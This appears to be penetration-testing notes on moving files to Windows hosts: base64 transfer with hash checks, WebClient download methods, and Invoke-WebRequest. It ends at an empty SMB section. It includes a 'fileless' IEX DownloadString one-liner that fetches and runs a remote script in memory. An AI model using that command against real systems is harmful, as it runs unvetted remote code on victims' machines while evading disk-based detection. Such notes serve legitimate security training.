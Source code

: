 # Windows
[PowerShell Base64 Encode & Decode](https://github.com/h4ck3r-cat/file.transfers/edit/main/Windows.md#powershell-base64-encode--decode)
<br>
[PowerShell Web Downloads](https://github.com/h4ck3r-cat/file.transfers/edit/main/Windows/Windows.md#step-2-encode-file-to-base64)
<br>
[SMB Downloads](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows/Windows.md#smb-downloads)
## PowerShell Base64 Encode & Decode
This is the simplest and most conveinient method and does **not** require a network connection

### Step 1: Check MD5 Hash
```bash
$ md5sum file.txt
f4d11dce99a848fe050ab3ef2c966b62  file.txt
```
### Step 2: Encode File to Base64
```bash
$ cat file.txt |base64 -w 0

YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K
```
### Step 3: Decode in Powershell
```powershell
PS> [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K')) | Out-File -FilePath "C:\Path\To\Decoded\Output.txt" -Encoding UTF8
```
### Step 4: Check MD5 Hash in PowerShell
```powershell
PS> Get-FileHash Output.txt -Algorithm md5

F4D11DCE99A848FE050AB3EF2C966B62
```
If the MD5 hashs are the same, we succeeded in trasfering the file.
> [!IMPORTANT]
> If the MD5 hashs do not match then you might have a few reasons why:
> 1. Line Endings: Different operating systems use different conventions for line endings in text files. Windows typically uses CRLF (\r\n), while Unix-based systems use LF (\n). If the line endings are different, it can result in different MD5 checksums.
> 2. Encoding Differences: If the files are text files and have different character encodings (e.g., UTF-8 vs. UTF-16), this can result in different MD5 checksums.
> 3. Whitespace Differences: Extra whitespace (leading/trailing spaces, tabs, etc.) can also cause differences in MD5 checksums.

By addressing these factors, you should be able to get consistent MD5 checksums for files with identical content.

## PowerShell Web Downloads
PowerShell provides a versatile array of **file transfer** capabilities, with the *System.Net.WebClient* class serving as a reliable tool for downloading files across **HTTP**, **HTTPS**, or **FTP** protocols. Within this class, various methods cater to different download requirements. The following table outlines key **WebClient** methods designed for downloading data from a resource, each catering to specific scenarios:

| Method              | Description                                                                                             |
|---------------------|---------------------------------------------------------------------------------------------------------|
| OpenRead            | Retrieves data from a resource and returns it as a Stream.                                               |
| OpenReadAsync       | Asynchronously obtains data from a resource without blocking the calling thread.                         |
| DownloadData        | Downloads data from a resource and returns it as a Byte array.                                           |
| DownloadDataAsync   | Asynchronously downloads data from a resource, returning a Byte array without blocking the calling thread.|
| [DownloadFile]()        | Downloads data from a resource and saves it to a local file.                                             |
| DownloadFileAsync   | Asynchronously downloads data from a resource to a local file without blocking the calling thread.       |
| [DownloadString]()      | Retrieves a String from a resource and returns it as a String.                                            |
| DownloadStringAsync | Asynchronously downloads a String from a resource without blocking the calling thread.                    |

### PowerShell DownloadFile Method
You can download files using the following powershell code:
```powershell
PS> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

### PowerShell DownloadString - Fileless Method
Fileless attacks operate by utilizing certain functions within an operating system to download and execute a payload directly. Instead of saving a PowerShell script to the computer's storage, we execute it straight from the computer's memory using the Invoke-Expression cmdlet or its shorthand alias, IEX as follows:
```powershell
PS> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
```

### PowerShell Invoke-WebRequest
```powershell
PS> Invoke-WebRequest <Target File URL> -OutFile <Output File Name>
```
## SMB Downloads

